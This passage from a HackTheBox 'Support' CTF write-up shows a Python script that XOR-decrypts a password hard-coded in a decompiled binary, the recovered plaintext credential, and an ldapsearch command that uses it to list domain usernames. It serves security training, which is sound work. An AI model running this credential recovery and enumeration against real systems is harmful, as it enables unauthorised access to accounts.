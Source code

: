 Since we found the decryption function, the encrypted password and key, we can decrypt the password too!

**To do decrypt the password, I'll write a [simple python script](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Support/decrypt_password.py):** (Basically just copying the function `getPassword()`, and convert it from C# to python.)
```py
#!/usr/bin/env python3

import base64

enc_password = b'0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E'
key = b'armando'

array = base64.b64decode(enc_password)
array2 = ''

for i in range(len(array)):
  array2 += chr(array[i] ^ key[i % len(key)] ^ 223)

print(f'[+] Decrypted password is: {array2}')
```

**Output:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# python3 decrypt_password.py
[+] Decrypted password is: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Also, in dnSpy, I also found that the LDAP connection is using username `support`.

**Found it! Now, let's enumerate usernames via the LDAP protocol**! 
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/Support]
└─# ldapsearch -x -H ldap://$RHOSTS -b 'dc=support,dc=htb' -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 'sAMAccountName' | grep sAMAccountName                  
# requesting: sAMAccountName 
sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: Administrators
sAMAccountName: Users
sAMAccountName: Guests
[...]
sAMAccountName: ldap
sAMAccountName: support
sAMAccountName: smith.rosario
sAMAccountName: hernandez.stanley
sAMAccountName: wilson.shelby
sAMAccountName: anderson.damian
sAMAccountName: thomas.raphael
sAMAccountName: levine.leopoldo
sAMAccountName: raven.clifton
sAMAccountName: bardot.mary
sAMAccountName: cromwell.gerard
sAMAccountName: monroe.david
sAMAccountName: west.laura
sAMAccountName: langley.lucy
sAMAccountName: daughtler.mabel
sAMAccountName: stoll.rachelle
sAMAccountName: ford.victoria
sAMAccountName: MANAGEMENT$
sAMAccountName: attackersystem$
sAMAccountName: sysr3llPC$
sAMAccountName: shrekt$
sAMAccountName: eclipse$
```